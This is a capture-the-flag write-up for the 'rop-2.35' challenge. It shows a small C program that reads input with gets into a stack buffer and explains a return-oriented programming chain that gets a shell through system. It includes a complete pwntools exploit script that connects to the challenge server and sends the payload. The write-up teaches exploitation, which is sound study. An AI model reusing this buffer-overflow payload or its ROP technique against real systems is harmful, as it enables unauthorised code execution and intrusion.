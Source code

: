 # rop-2.35

## Overview

We are given a small Linux binary with no PIE or stack canaries. The
binary calls `system` then calls `gets` on a stack buffer:

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
  char buf[0x10];
  system("echo Enter something:");
  gets(buf);
}
```

## Exploit

The crux of the challenge is to control the first argument to a call to
`system`. When we return from main, `rdi` contains the address of the
buffer that we just called `gets` on.

When `main()` returns, `rax` contains address of the buffer. There is a
tempting `mov rdi, rax; call system` gadget, but that doesn't work
because when `system` pushes registers onto the stack, that overwrites
whatever command we just read into the buffer.

Running the challenge in gdb, we find that when `main` returns,
`rdi` contains a writeable address inside of libc. We return to `gets`
to write a command into it, then return to the
`mov rdi, rax; call system` gadget we identified. The exploit includes
an extra `ret` gadgets to maintain proper stack alignment.

The exploit prepends a number of slashes to the beginning of the command
beause we observed that something in libc would write 0x2e (.) near the
libc address that we write the command to. Luckily, no null bytes are
written, so our command is preserved.

Exploit:
```python
#!/usr/bin/env python3
from pwn import *
context.update(arch='amd64', os='linux')
p, u = pack, unpack

r = remote('rop-2-35.seccon.games', 9999)

gets = 0x401060
ret = 0x401110
mov_rdi_rax_call_system = 0x401169

payload = b'A' * 0x18
payload += p64(gets)
payload += p64(ret)
payload += p64(mov_rdi_rax_call_system)
r.sendline(payload)

r.sendline('////////////////////bin/sh')

r.interactive(prompt='')
```

The flag for this challenge references some sort of CSU trick, but we
didn't do anything like that :-)

